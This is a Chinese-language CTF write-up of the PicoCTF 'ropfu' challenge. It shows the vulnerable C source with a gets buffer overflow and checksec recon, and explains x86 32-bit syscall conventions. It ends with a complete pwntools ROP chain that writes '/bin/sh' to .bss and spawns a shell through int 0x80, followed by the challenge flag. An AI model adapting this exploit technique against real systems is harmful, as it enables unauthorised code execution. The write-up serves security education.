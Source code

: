 ```yaml
---
title: PicoCTF - ropfu
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - ropfu
## Background
ROP Chain
x86 Calling Convention:
[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
這一題很明顯要開個shell，我以為會像[^pico_pwn_guessing_game][^0x12_rop++]這兩題一樣，事實上概念完全一樣，但換到x86的32bits版本就不知道為啥一直沒有成功，後來有想到是忽略了calling convention的問題，和x86-64的版本不一樣，另外指令的選擇上也不太一樣，像64bits的system call會用syscall，但x86會用int 0x80處理[^syscall_in_x86]，另外寫入`/bin/sh\x00`的方式也和之前的不一樣，之前是call __libc_read function之前把暫存器的部分擺好，就直接跳到__libc_read的地方去，但在這邊是沒辦法成功的，看了其他人的wp[^ropfu_wp]，大部分的做法都是直接用rop把值寫到對應的section中，詳細如下:
```assembly
pop edx -> bss address
pop eax -> 0x6e69622f -> /bin
mov DWORD PTR [edx] eax
pop edx -> bss address
pop eax -> 0x0068732f -> /sh\x00
mov DWORD PTR [edx] eax
```
寫完`/bin/sh\x00`就直接call execve的syscall開shell
## Exploit - ROP Chain
```python!
from pwn import *

# r = process('./vuln')
r= remote('saturn.picoctf.net', 54107)
context.arch = 'amd64'

r.recvline()

pop_eax_ret = 0x80b073a
pop_edx_ebx_ret = 0x80583b9
bss_addr = 0x080e5050
mov_dword_ptr_edx_eax_ret = 0x80590f2
pop_ecx_ret = 0x8049e29
int_0x80 = 0x0807163f

'''############
Read /bin/sh\x00
############'''
# raw_input()
r.sendline(b'a' * 0x1c + 
           p32(pop_edx_ebx_ret) + p32(bss_addr) + p32(0) + 
           p32(pop_eax_ret) + p32(0x6e69622f) +
           p32(mov_dword_ptr_edx_eax_ret) + 
           p32(pop_edx_ebx_ret) + p32(bss_addr + 4) + p32(0) + 
           p32(pop_eax_ret) + p32(0x0068732f) +
           p32(mov_dword_ptr_edx_eax_ret) + 

           p32(pop_eax_ret) + p32(0xb) + 
           p32(pop_edx_ebx_ret) + p32(0) + p32(bss_addr) + 
           p32(pop_ecx_ret) + p32(0) + 
           p32(int_0x80)
)

r.interactive()
```

Flag: `picoCTF{5n47ch_7h3_5h311_1b5a4b40}`
## Reference
[^ropfu_wp]:[ PicoCTF 2022: Beginner's Compilation ](https://enscribe.dev/ctfs/pico22/beginners-compilation/#ropfu)
[^pico_pwn_guessing_game]:[PicoCTF - Guessing Game 1](https://hackmd.io/@SBK6401/SkxoLuwoh)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
[^syscall_in_x86]:[ 在 Linux 下寫組語, 透過 int 0x80 使用 system call ](http://guguclock.blogspot.com/2009/01/linux-int-0x80-system-call.html)